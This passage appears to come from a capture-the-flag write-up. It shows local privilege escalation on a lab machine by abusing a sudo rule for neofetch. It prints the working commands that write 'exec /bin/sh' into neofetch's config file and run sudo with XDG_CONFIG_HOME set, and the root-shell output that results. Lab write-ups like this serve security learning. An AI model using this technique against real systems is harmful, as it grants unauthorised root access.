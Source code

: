 

    TF=$(mktemp)
    echo 'exec /bin/sh' >$TF
    neofetch --config $TF



The `sudo` rule prevents my specifying a different config. But I can use
the default config location (which was slightly spoiled by the cron
reverting that I noticed earlier.)

#### Config Location

The `neofetch`
[docs](https://github.com/dylanaraps/neofetch/wiki/Customizing-Info#config-file-location)
have a section on "Config File Location", which say it's
`${HOME}/.config/neofetch/config.conf`. That's actually slightly
misleading. Looking at the [source
itself](https://github.com/dylanaraps/neofetch/blob/master/neofetch#L4775-L4797),
there's a `get_user_config()` function that tries to load a config from:

-   a location given with `--config`
-   `${XDG_CONFIG_HOME}/neofetch/config.conf`
-   `${XDG_CONFIG_HOME}/neofetch/config`
-   nowhere if `$no_config` is set

If it fails all those, it copies the default config from into
`${XDG_CONFIG_HOME}/neofetch/config.conf`.

At the very top of the file, it sets
`XDG_CONFIG_HOME=${XDG_CONFIG_HOME:-${HOME}/.config}`. That means if
`XDG_CONFIG_HOME` isn't set, it will set it using the `$HOME` variable,
which explains the documentation.

#### Exploit

I'll write the `exec` line from GTFObins into the config:



    thomas@meta:~$ echo 'exec /bin/sh' > .config/neofetch/config.conf 
    thomas@meta:~$ XDG_CONFIG_HOME=~/.config sudo neofetch
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # bash
    root@meta:/home/thomas#



If I run without explicitly setting `$XDG_CONFIG_HOME`, it doesn't do
anything:



    thomas@meta:~$ sudo neofetch
           _,met$$$$$gg.          root@meta 
        ,g$$$$$$$$$$$$$$$P.       --------- 
      ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
     ,$$P'              `$$$.     Host: VMware Virtual Platform None 
    ',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
    `d$$'     ,$P"'   .    $$$    Uptime: 13 hours, 37 mins 
     $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
     $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
     $$;      Y$b._   _,d$P'      CPU: AMD EPYC 7302P 16- (2) @ 2.994GHz 
     Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
     `$$b      "-.__              Memory: 152MiB / 1994MiB 
      `Y$$
       `Y$$.                                              